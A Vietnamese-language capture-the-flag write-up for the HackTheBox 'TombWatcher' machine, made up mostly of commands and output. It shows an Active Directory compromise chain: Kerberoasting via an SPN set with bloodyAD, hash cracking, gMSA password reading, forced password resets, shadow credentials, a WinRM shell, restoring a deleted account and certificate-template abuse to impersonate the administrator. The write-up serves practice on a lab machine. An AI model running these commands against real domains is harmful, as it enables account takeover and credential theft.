




<p align="center"></p>

# Tomwatcher Hackthebox
## nmap, smb, ldap, bloodyAD
### Nmap
```
nmap -sCV -vv -oA nmap/output 10.10.11.72
```
[🔍 Xem kết quả quét Nmap](./nmap/output.nmap)
### Thêm domain file /etc/hosts 
```
echo "10.10.11.72 DC01.tombwatcher.htb DC01 tombwatcher.htb" |sudo tee -a /etc/hosts
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
10.10.11.72 DC01.tombwatcher.htb DC01 tombwatcher.htb
</pre>

### Kiểm tra ldap
```
nxc ldap DC01.tombwatcher.htb -u henry -p H3nry_987TGV! --kerberoasting -  
```          
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.10.11.72     389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
LDAP        10.10.11.72     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.10.11.72     389    DC01             [*] Total of records returned 0
</pre>
### Chạy rusthound-ce thu thập data
```
rusthound-ce -d tombwatcher.htb -u henry -p H3nry_987TGV!
```

### Upload lên bloodhound
Register a Service Principal Name for Kerberos Connections
để leo lên user Alfred
<p align="center"></p>
User Jonh có quyền GenericAll Active Directory Certificate Services
<p align="center"></p>
Hướng leo lên Jonh
<p align="center"></p>

### Chạy lệnh để lấy hash SPN LDAP
```
bloodyAD -u henry -p 'H3nry_987TGV!' --host 10.10.11.72 set object ALFRED servicePrincipalName -v 'http/pwned'
```
```
nxc ldap dc01.tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberoasting -
```
[🔍 Mã hash](./cred/henkr5.txt)
- Chạy cmd sau để xóa SPN 
```
bloodyAD -u henry -p 'H3nry_987TGV!' --host 10.10.11.72 set object ALFRED servicePrincipalName
```
### Chạy hashcat crash krb5
```
hashcat -m 13100 cred/henkr5.txt /usr/share/wordlists/rockyou.txt 
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
...1b6eb6e7dec2546857bc896df9346787ed89812fb81165c2:basketball
</pre>
### Thêm Alfred vào group `infrastructure`
```
bloodyAD --host 10.10.11.72 -u alfred -p 'basketball' add groupMember infrastructure Alfred
```
Kiểm tra rò pass user ansible_dev
```
nxc ldap dc01.tombwatcher.htb -u alfred -p 'basketball' --gmsa
```
### Change password user Sam bằng mã gmsa thu được
```
bloodyAD --host 10.10.11.72 -u ansible_dev$ -p ':bf8b11e301f7ba3fdc616e5d4fa01c30' set password sam "PleaseSubscribe"
```
### Thay quyền user john bằng sam
```
bloodyAD --host 10.10.11.72 -u 'sam' -p 'PleaseSubscribe' set owner john sam
```
### Lấy shadown cred john
```
certipy-ad shadow auto -u sam@tombwatcher.htb -p 'PleaseSubscribe' -account john -dc-ip 10.10.11.72
```
### Remote vao server
```
evil-winrm -i 10.10.11.72 -u john -H ad9324754583e3e42b55aad4d3b8d2bf 
```
### Xem cac cert dang tham gia
<p align="center"></p>
Tìm kiếm xem cert nào SID đang để dang số (tức đã vô hiệu hóa từ lâu) bẳng certify
```
└─$ certipy-ad find -u john -hashes :ad9324754583e3e42b55aad4d3b8d2bf -target 10.10.11.72
```

### Tìm user SID lạ trên john
```
*Evil-WinRM* PS C:\Users\john\Desktop> Get-AdObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects
```
Thấy có user cert-admin hồi sinh nó dậy
```
*Evil-WinRM* PS C:\Users\john\Desktop> Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```
### Lấy TGT cert_admin
```
certipy-ad shadow auto -u  john@tombwatcher.htb -hashes :ad9324754583e3e42b55aad4d3b8d2bf -account cert_admin -dc-ip 10.10.11.72
```
### Kiểm tra có lỗ hổng nào không 
```
certipy-ad find -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -vulnerable
```
### Lay cert cua administrator
```
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -ca tombwatcher-CA-1 -template WebServer -application-policies 'Certificate Request Agent'
```
```
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -ca tombwatcher-CA-1 -template User -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\administrator'
```
### Lay hash
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72
```
